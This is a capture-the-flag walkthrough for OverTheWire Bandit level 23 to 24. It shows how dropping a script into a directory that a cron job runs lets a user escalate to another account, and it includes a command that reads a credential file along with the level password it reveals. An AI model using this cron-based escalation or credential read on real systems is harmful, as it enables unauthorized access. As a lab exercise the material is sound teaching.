

# OverTheWire Bandit – Level 23 → Level 24

## 🎯 Level Objective
The goal of **Bandit Level 23 → Level 24** is to retrieve the password for the next level.

In this level:
- You are logged in as **bandit23**
- A cron job runs automatically as **bandit24**
- The cron job executes **all executable scripts** placed in a specific directory
- You must create your own script so it runs as bandit24 and reveals the password

---

## 🖥️ Environment Details
- Wargame: OverTheWire Bandit
- Current User: bandit23
- Target User: bandit24
- SSH Port: 2220
- Mechanism Used: `cron` jobs
- Relevant Directories:
  - `/etc/cron.d`
  - `/usr/bin`
  - `/var/spool/bandit24`
  - `/tmp`

---

## 🔐 Login Command
ssh bandit23@bandit.labs.overthewire.org -p 2220

---

## 🧪 Step-by-Step Solution

### Step 1️⃣ Identify the Cron Job
List available cron jobs:

ls /etc/cron.d

Output includes:
cronjob_bandit24

📌 This cron job is responsible for running tasks as bandit24.

---

### Step 2️⃣ Read the Cron Job Configuration
View the cron job file:

cat /etc/cron.d/cronjob_bandit24

Output:
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh >/dev/null 2>&1

📌 The script runs every minute as **bandit24**.

---

### Step 3️⃣ Inspect the Cron Script
Read the script executed by the cron job:

cat /usr/bin/cronjob_bandit24.sh

Script behavior:
- Executes **every executable script** inside:
  `/var/spool/bandit24`
- Removes the scripts after execution

📌 Any executable script placed in this directory will be executed as bandit24.

---

### Step 4️⃣ Create the Script
Move to a writable directory and create a script:

cd /tmp  
nano get_bandit24_pass.sh

Script content:
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_pass

---

### Step 5️⃣ Make the Script Executable
Grant execution permission:

chmod +x get_bandit24_pass.sh

---

### Step 6️⃣ Copy the Script to the Cron Directory
Place the script where cron will execute it:

cp get_bandit24_pass.sh /var/spool/bandit24/

📌 The cron job will pick up and execute the script automatically.

---

### Step 7️⃣ Wait for Cron Execution
Wait approximately **1 minute** for the cron job to run.

---

### Step 8️⃣ Retrieve the Password
Read the file created by the script:

cat /tmp/bandit24_pass

---

## 🔐 Password Found
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

---

## ➡️ Login to Next Level
Use the password above to log in to the next level:

ssh bandit24@bandit.labs.overthewire.org -p 2220

---

## 🖼️ Screenshot Evidence

---

## 📘 Key Concepts Learned
- Cron job execution flow
- Exploiting automated task execution
- Privilege escalation using scheduled scripts
- Importance of executable permissions
- Secure handling of temporary directories

---

## ✅ Level Status
✔️ Bandit Level 23 → Level 24 completed successfully
